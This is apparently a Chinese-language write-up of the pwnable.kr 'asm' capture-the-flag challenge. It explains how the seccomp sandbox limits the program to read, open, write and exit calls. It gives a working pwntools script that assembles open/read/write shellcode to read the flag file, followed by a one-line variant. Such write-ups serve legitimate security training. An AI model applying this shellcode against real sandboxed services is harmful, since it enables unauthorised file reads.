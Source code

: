 
  

接着读取用户输入的数据到内存中。

  

重点在这个沙箱函数，通过[seccomp](https://en.wikipedia.org/wiki/Seccomp)建立了一些规则，限制了可以使用的系统调用，只能够使用`read`、`open`、`write`、`exit`、`exit_group`。

  

但有这几个函数就足以构造出shellcode去读取flag，利用pwntools的shellcraft模块和asm模块很轻松就可以完成。

  

汇编语言函数返回值一般是在eax(rax)中，所以open之后read的fd参数填rax

  

from pwn import *

r=ssh('asm','pwnable.kr',2222,'guest')
p=r.connect_remote('localhost',9026)
context(arch='amd64', os='linux')

payload=""
payload=shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
payload+=shellcraft.open('rsp',0,0)
payload+=shellcraft.read('rax','rsp',100)
payload+=shellcraft.write(1,'rsp',100)

print p.recvuntil('shellcode: ')

p.sendline(asm(payload))

print p.recvline()

  

后来测试了下，也可以直接open打开

  

payload+=shellcraft.open('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')